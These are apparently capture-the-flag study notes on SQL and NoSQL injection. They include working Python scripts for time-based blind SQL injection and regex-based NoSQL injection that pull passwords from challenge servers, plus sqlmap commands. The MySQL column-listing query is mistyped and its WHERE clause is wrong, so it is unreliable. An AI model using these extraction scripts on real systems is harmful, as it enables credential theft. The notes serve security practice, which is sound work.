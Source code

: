 # SQL Injection
## 1. SQL
### 1.1. Overview
- syntax to comment: `--`, `/* */`, ...
- union: 
```
SELECT column_name(s) FROM table1 -> clause 1
UNION
SELECT column_name(s) FROM table2 -> clause 2
```
-> when clause 1 fail, will execute clause 2
- group_concat: string concatenation

### 1.2. Sqlite
- `select sql from sqlite_master`
-> show schema

### 1.3. Mysql
`select table_name from information_schema.tables where table_schema=database()`
-> show name of tables
`select column_name from information_sche.columns where table_schema=table_name`
-> show columns name of that table

### 1.4. Cheetsheet 
`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection`

## 2. Attack
### 2.1. SQL injection boolean
- injection to query to bypass 

### 2.2. SQL injection blind
- base on response as like as error, timeout to collect data
example:
```
import requests, string, time
arr = "_}"+ string.digits+ string.ascii_letters  + string.punctuation
s = requests.session()
url = 'http://188.166.173.208:30042/api/list'

def bind(step):
    for char in arr:
        a = time.time()
        s.post(url,data={'order':f"(select case when (select ascii(mid((select password from users  where username='flagholder'),{step},1))) LIKE {ord(char)} then sleep(0.6) else 1 end)"})
        b = time.time()
        if b-a > 4:
            return char
    return None        

def flag():
    flag = 'HTB{'
    step = len(flag) + 1 
    while True:
        c = bind(step)
        if c==None or c=='}':
            return flag + c
            
        flag += c 
        step += 1
        print('[+] flag = ',flag)

print('[+] flag = ',flag())
```

### 2.3. Nosql injection
```
import requests, string
arr = string.digits + string.ascii_letters + "_@{}-/()!\"$%=^[]:;"
req = requests.session()

def countchar() -> int:
    for i in range(2,50):
        res = req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=%s'%(i*'.')).text
        if 'This is not a valid flag for the'  in res:    
            return i 

def findpassword( n : int) -> str:
    password = ''
    for _ in range(n):
        for c in arr:
            if 'Yeah this is the flag for' in req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=^' + password + c).text:
                print('[+] ',password)
                password += c
                break
    return password


n = countchar()
print('length password ',n)
print(findpassword(n))
```
### 2.4. Tool sqlmap
- install: `brew install sqlmap`
- use: `sqlmap -r file_request --batch -D database --tables`
